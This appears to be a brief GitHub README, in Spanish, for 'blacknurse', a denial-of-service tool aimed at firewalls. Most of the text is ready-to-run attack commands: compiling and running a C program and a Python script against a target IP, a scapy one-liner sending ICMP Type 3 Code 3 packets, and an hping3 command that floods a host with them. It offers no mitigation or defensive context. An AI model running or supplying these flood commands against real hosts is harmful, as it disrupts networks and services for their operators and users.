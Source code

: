 ## blacknurse
Black Nurse DOS Attack Firewall ( ICMP Type 3 Code 3 )

Ejecutar en c:
gcc blacknurse.c -o blacknurse
./blacknurse IP

Ejecutar en Python:
python blacknurse.py IP

Ejecutar con scapy: 
send(IP(dst="1.2.3.4")/ICMP(code=3,type=3))

Ejecutar con hping3
hping3 --icmp -C 3 -K 3 --flood IP

#
## http://www.hackingyseguridad.com
#

